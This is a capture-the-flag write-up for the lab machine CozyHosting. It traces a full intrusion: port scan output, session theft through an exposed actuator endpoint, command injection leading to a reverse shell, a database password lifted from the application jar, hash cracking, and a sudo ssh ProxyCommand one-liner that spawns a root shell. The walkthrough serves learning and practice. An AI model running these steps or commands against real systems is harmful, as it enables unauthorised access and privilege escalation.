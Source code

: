 ## Machine Info

![image-20231201123527736](./CozyHosting.assets/image-20231201123527736.png)

## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path enum: dir + file

![image-20231201161002049](./CozyHosting.assets/image-20231201161002049.png)

![image-20231201161005444](./CozyHosting.assets/image-20231201161005444.png)

- dir **actuator** -> find sessions

![image-20231201161031653](./CozyHosting.assets/image-20231201161031653.png)

- enum authorized session `kanderson`

![image-20231201161117037](./CozyHosting.assets/image-20231201161117037.png)

## Foothold

- change site's cookies and login admin page

![image-20231201161149155](./CozyHosting.assets/image-20231201161149155.png)

- find ssh connection function

![image-20231201161229277](./CozyHosting.assets/image-20231201161229277.png)

- burp to capture the script's detail

![image-20231201161252030](./CozyHosting.assets/image-20231201161252030.png)

![image-20231201161256805](./CozyHosting.assets/image-20231201161256805.png)

- test the remote by connecting the local

![image-20231201161320350](./CozyHosting.assets/image-20231201161320350.png)

- curl a shell bash to execute on the remote -> rshell on the local

![image-20231201161349289](./CozyHosting.assets/image-20231201161349289.png)

## Privilege Escalation

### app -> josh

- `netstat -tuln`
- ps aux

```
app         1065 12.2 16.3 3672668 655944 ?      Ssl  02:11  10:24 /usr/bin/java -jar cloudhosting-0.0.1.jar
 
ps aux | grep sql
postgres    1111  0.0  0.7 218316 30248 ?        Ss   02:11   0:00 /usr/lib/postgresql/14/bin/postgres -D /var/lib/postgresql/14/main -c config_file=/etc/postgresql/14/main/postgresql.conf
```

![image-20231201161552287](./CozyHosting.assets/image-20231201161552287.png)

- shows that `cloudhosting-0.0.1.jar` and `postgresql` are running in the back

- analyse `cloudhosting-0.0.1.jar`

![image-20231201161532957](./CozyHosting.assets/image-20231201161532957.png)

![image-20231201161536996](./CozyHosting.assets/image-20231201161536996.png)

![image-20231201161557200](./CozyHosting.assets/image-20231201161557200.png)

- cred get: `"postgresql://postgres:Vg&nvzAQ7XxR@localhost:5432/"`

```bash
psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost:5432/"
psql -h localhost -d postgres -U postgres
```

- conn to db -> enum -> get password's hash

![image-20231201161640983](./CozyHosting.assets/image-20231201161640983.png)

![image-20231201161700979](./CozyHosting.assets/image-20231201161700979.png)

![image-20231201161703571](./CozyHosting.assets/image-20231201161703571.png)

- hashcat to crack it

![image-20231201161718599](./CozyHosting.assets/image-20231201161718599.png)

- app priv -> josh priv

![image-20231201161743439](./CozyHosting.assets/image-20231201161743439.png)

### josh -> root

- sudo -l -> ssh -> `sudo /usr/bin/ssh -o ProxyCommand=';/usr/bin/bash 0<&2 1>&2' x`

![image-20231201161826158](./CozyHosting.assets/image-20231201161826158.png)

## Exploit Chain

session leakage -> web page login -> ssh function -> remote code execution -> get app-priv shell -> enum jar file and db service -> find db cred in jar file by re -> find hash in jar file -> crack hash -> get josh-priv shell -> sudo ssh -> get root shell
